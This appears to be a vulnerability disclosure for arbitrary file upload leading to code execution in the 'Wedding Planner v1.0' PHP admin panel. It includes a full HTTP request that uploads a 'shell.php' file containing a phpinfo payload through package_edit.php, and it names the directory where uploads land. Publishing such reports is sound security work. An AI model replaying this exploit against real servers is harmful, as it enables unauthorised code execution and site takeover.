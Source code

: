 # Wedding Planner v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Tr0e

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability url: http://ip/Wedding-Management-PHP/admin/package_edit.php?id=1

Loophole location：The editing function of "Services" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "package_edit.php" file.

Click "Edit" to save

Request package for file upload：

```sql
POST /Wedding-Management-PHP/admin/package_edit.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management-PHP/admin/package_edit.php?id=1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2779055672062
Content-Length: 529

-----------------------------2779055672062
Content-Disposition: form-data; name="wedding_type"

2
-----------------------------2779055672062
Content-Disposition: form-data; name="price"

0.00
-----------------------------2779055672062
Content-Disposition: form-data; name="preview_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2779055672062
Content-Disposition: form-data; name="submit"


-----------------------------2779055672062--
```

The files will be uploaded to this directory \Wedding-Management-PHP\admin\upload\categories

![image](https://user-images.githubusercontent.com/54017627/183274220-c9d1fde4-709b-4eea-8a18-9e305b4b9104.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183274224-8b9afde9-2cfe-4020-81e6-5c60e2401ed4.png)
